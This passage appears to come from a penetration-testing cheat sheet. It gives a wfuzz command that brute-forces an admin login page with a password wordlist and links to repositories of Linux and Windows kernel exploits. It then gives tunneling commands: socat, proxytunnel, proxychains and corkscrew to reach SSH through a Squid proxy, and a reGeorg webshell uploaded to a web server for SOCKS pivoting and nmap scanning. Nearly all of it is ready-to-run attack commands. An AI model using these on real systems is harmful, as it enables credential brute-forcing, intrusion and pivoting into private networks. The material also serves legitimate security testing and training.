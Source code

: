 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
Linux: https://github.com/lucyoa/kernel-exploits

Windows: https://github.com/abatchy17/WindowsExploits



<a name="tunneling"></a><h2>Tunneling</h2>

<a name="sshovertcp"></a><h3>SSH over HTTP (Squid)</h3>

<b> socat </b>

<pre>socat TCP-L:9999,fork,reuseaddr PROXY:192.168.1.41:127.0.0.1:22,proxyport=3128

ssh john@127.0.0.1 -p 9999</pre>


<b>proxytunnel </b>

<pre>proxytunnel -p 192.168.1.41:3128 -d 127.0.0.1:22 -a 5555

ssh john@127.0.0.1 -p 5555</pre>

<b>proxychains </b>

<pre>http 192.168.1.41 3128

proxychains ssh john@127.0.0.1</pre>

![proxychains](https://user-images.githubusercontent.com/7115563/33822522-1e15dbee-de58-11e7-9953-3da8ff684cfc.png)


<b>corkscrew </b>

<pre>ssh john@192.168.1.41 -t /bin/sh</pre>

![cork](https://user-images.githubusercontent.com/7115563/33822672-b92a51f0-de58-11e7-9936-06056b7903b8.png)


<a name="tcpoverhttp"></a><h3> TCP over HTTP </h3>

For this technique, it is necessary to be able to upload a file to a webserver.

<a name="regeorg"><b> 1. reGeorg </b>
  
  File upload to the server correct
  
  ![regeorge2](https://user-images.githubusercontent.com/7115563/33883424-028c9f0e-df3c-11e7-9559-b35667ae76db.png)
  
  Tunnel creation
  
  `python reGeorgSocksProxy.py -p 5555 -u "http://<ip>/admin/uploads/reGeorg.jsp"`
  
  Proxychains config
  
  ![regeorge1](https://user-images.githubusercontent.com/7115563/33883419-fcc15416-df3b-11e7-89a9-499ffc1de9cf.png)
  
  <pre>
proxychains nmap -F -sT 127.0.0.1
```